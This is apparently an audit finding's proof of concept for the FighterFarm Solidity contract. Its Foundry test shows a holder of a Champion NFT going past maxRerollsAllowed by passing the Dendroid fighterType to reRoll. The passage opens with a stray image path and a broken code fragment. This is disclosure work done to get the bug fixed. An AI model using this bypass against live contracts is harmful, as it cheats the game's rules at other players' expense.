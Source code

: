 ```solidity
}
```
This is PoC.

First, there is a bug that there is no way to set numElements, so add a numElements setter to FighterFarm. This bug has been submitted as a separate report.
```solidity
function numElementsSetterForPoC(uint8 _generation, uint8 _newElementNum) public {
    require(msg.sender == _ownerAddress);
    require(_newElementNum > 0);
    numElements[_generation] = _newElementNum;
}
```
Add a test to the FighterFarm.t.sol file and run it. The generation of Dendroid has increased, and maxRerollsAllowed has increased. The user who owns the Champion NFT bypassed maxRerollsAllowed by putting the fighterType of Dendroid as a parameter in the reRoll function.
```solidity
function testPoCRerollBypassMaxRerollsAllowed() public {
    _mintFromMergingPool(_ownerAddress);
    // get 4k neuron from treasury
    _fundUserWith4kNeuronByTreasury(_ownerAddress);
    // after successfully minting a fighter, update the model
    if (_fighterFarmContract.ownerOf(0) == _ownerAddress) {
        uint8 maxRerolls = _fighterFarmContract.maxRerollsAllowed(0);
        uint8 exceededLimit = maxRerolls + 1;
        uint8 tokenId = 0;
        uint8 fighterType = 0;

        // The Dendroid's generation changed, and maxRerollsAllowed for Dendroid is increased
        uint8 fighterType_Dendroid = 1;

        _fighterFarmContract.incrementGeneration(fighterType_Dendroid);

        assertEq(_fighterFarmContract.maxRerollsAllowed(fighterType_Dendroid), maxRerolls + 1);
        assertEq(_fighterFarmContract.maxRerollsAllowed(fighterType), maxRerolls); // Champions maxRerollsAllowed is not changed

        _neuronContract.addSpender(address(_fighterFarmContract));

        _fighterFarmContract.numElementsSetterForPoC(1, 3); // this is added function for poc

        for (uint8 i = 0; i < exceededLimit; i++) {
            if (i == (maxRerolls)) {
                // reRoll with different fighterType
                assertEq(_fighterFarmContract.numRerolls(tokenId), maxRerolls);
                _fighterFarmContract.reRoll(tokenId, fighterType_Dendroid);
                assertEq(_fighterFarmContract.numRerolls(tokenId), exceededLimit);
            } else {
                _fighterFarmContract.reRoll(tokenId, fighterType);
            }
        }
    }
}
```
